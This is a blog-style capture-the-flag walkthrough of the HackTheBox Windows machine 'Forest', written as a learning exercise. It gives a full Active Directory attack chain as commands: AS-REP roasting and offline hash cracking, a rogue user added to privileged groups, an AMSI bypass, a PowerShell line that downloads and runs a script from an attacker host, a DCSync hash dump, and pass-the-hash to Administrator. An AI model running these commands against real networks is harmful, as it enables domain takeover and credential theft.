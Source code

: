 ```yaml
---
title: Forest @ HackTheBox  
date: 2025-04-14 13:00:00 
categories: [HTB Machines,Windows Machines]
tags: [ad,asreproast,ad,bloodhound,dcsync,hack the box]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post2/forest.png
---
```

**Hello** This is a very simple walkthrough for the windows machine Forest (easy). In this walkthrough we'll be see some basic AD enumeration and Exploitation, without further ado let's get into it 
## Enumeration
### Nmap
we'll start with a an advanced tcp port scan of all of the open ports ($ports)
```shell
sudo nmap -sC -sV -p$ports -oN tcp_scan $IP
```
we can see from the scan that this machine is a domain controller for the domain htb.local next we’ll enumerate LDAP and look for anonymous bind 
> dont forget to add the domain to /etc/hosts file.
{: .prompt-tip }
### LDAP Enumeration
we’ll try enumerating ldap using the cli command : ldapsearch 
```shell
ldapsearch -H ldap://10.10.10.161 -x -b "dc=htb,dc=local"
```
the -x flag specifies using anonymous authentication, while -b denotes the basedn.
seems ldap anonymous bind is enabled, next we’ll do some digging to find extra info such as user and groups.
```shell
windapsearch.py -d htb.local --dc-ip 10.10.10.161 -U 
```
the -U used is for enumerating users, we could attempt to password spray all the users found but before doing so lets dig a little more in the ObjectClass of ldap, use  `--custom` flag withe `ObjectClass=*` argument to retrieve all :
```shell
windapsearch.py -d htb.local --dc-ip 10.10.10.161 --custom "ObjectClass=*"
```
this query returned 312 results among them was an interesting user called `svc-alfresco` a few online search about this revealed that this account requires disabling pre-auth in kerberos, so that means the account is vulnerable to `AS_REProast`. 
This attack levrages the disabling of pre-authentication in kerberos to request a TGT from the KDC,meaning that any attacker knowing only the username can get a segment of the tgt that is encrypted with the victim’s password hash, after that the attacker can perform offline password crack to get the plaintext password.
## AS_REProast → Foothold 
for this we’ll use the script `GetNPUsers.py` from **Impacket** :
```shell
GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161 
```
ok now since we've got the encrypted tgt ticket with the svc-alfresco password’s hash, now let's try to crack that, for this i'll use hashcat :
```shell
hashcat -m 18200 tgt /usr/share/wordlist/rockyou.txt
```
18200 represents the code for kerberos ASRep hash.

now that we get the password let's try to login to the account using **WinRM** service (reminder port 5985 was open), for this we’ll use evil-winrm :
```shell
evil-winrm -i 10.10.10.161 -u svc-alfresco -p "s3rvice" 
```
## PrivEsc
now since we gained a foothold inside the active directory its time to unleash the bloodhound and enumerate, i like to use bloodhound-python as my ingestor if you are comfortable with sharphound feel free to use it :
```shell
bloodhound-python -d htb.local -usvc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.10.10.161 
```
next crate a neo4j instance and start bloodhound then upload the json files retrieved from the ingestor, after that search for the user svc-alfresco and mark it as owned. A quick review of the account group membership show that the user svc-alfresco is a member of 9 group
![screen_1](/./media/post2/bloodhound_1.png)
one in particular is interessting, the **Account Operators Group**, according to microsoft the account operators group members have the right to create users and add them to groups.

so from there lets see if we can find a high value target we can append a rogue user to and exploit it. go to analysis and select Shortest **Path to High Value targets**.
![screen_2](/./media/post2/bloodhound_2.png)

it looks like the exchange windows group has **writeDacl** rights on the domain and this could be leveragrd to grant the user any rights including **DCSync** right.

For this we’ll create another user called **jason** with a password of **psswd123** and then add him to 2 groups exchange windwos permissions and remote management users.
```powershell
net user jason psswd123 /add /domain
net group "Exchange Windows Permissions" jason /add
net localgroup "Remote Management Users" jason /add
```
The commands above create a new user named john and add him to the required groups. Next,
download the **PowerView** script and import it into the current session.

before loading the script we should use the **bypassAMSI** option in the menu.

Next, we can use the **Add-ObjectACL** with john's credentials, and give him **DCSync** rights.
```powershell
iex(new-object net.webclient).downloadstring('http://$IP:8090/PowerView.ps1')
$SecPassword = Convertto-SecureString 'psswd123' -AsPlainText -force
$Cred = New-Object System.Management.Automation.PSCredential('htb\jason', $SecPassword)
Add-objectACL -PrincipalIdentity jason -Credential $Cred -Rights DCSync
````
The **secretsdump.py** script from Impacket can now be run as john, and used to reveal the NTLM
hashes for all domain users.
```shell
secretsdump.py htb/jason@10.10.10.161
```
now lets try to perform some **pass-the-hash** technique to acces the admin account, for this we’ll use **psexec.py** script from impacket :
```shell
psexec.py htb/Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
## Conclusion
This we'll be the end of this walkthrough, as technique for solidifying my knowledge i like to list all the new things i've learnt in this machine. Since i am new to AD envirement i learned a lot of things in this box :
- **LDAP** Anonymous bind Enumeration (ldapsearch,windapsearch).
- **AS_REProast** Attack.
- **Bloodhound** Basic Enumeration.
- **DCSync** Attack
